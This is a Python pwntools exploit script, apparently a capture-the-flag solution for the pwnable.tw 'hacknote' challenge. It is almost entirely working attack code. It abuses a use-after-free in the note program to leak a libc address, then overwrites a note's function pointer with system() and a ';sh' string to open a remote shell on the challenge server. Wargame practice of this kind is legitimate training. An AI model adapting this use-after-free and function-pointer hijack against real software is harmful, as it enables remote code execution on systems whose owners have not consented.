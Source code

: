 ```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./hacknote")
libc = ELF("./libc_32.so.6")
io = remote("chall.pwnable.tw",10102)

def add(size,content):
	io.recvuntil("choice :")
	io.sendline("1")
	io.recvuntil("size :")
	io.sendline(str(size))
	io.recvuntil("Content :")
	io.sendline(content)
def delete(num):
	io.recvuntil("choice :")
	io.sendline("2")
	io.recvuntil("Index :")
	io.sendline(str(num))
def show(num):
	io.recvuntil("choice :")
	io.sendline("3")
	io.recvuntil("Index :")
	io.sendline(str(num))

add(64,"")
add(32,"")
delete(0)
add(64,"")
show(2)

libc_base = u32(io.recv(8)[4:8])-0x1b07b0
system_addr = libc_base + libc.symbols['system']

delete(0)
delete(1)
add(8,p32(system_addr)+";sh\x00")
show(0)
io.interactive()
```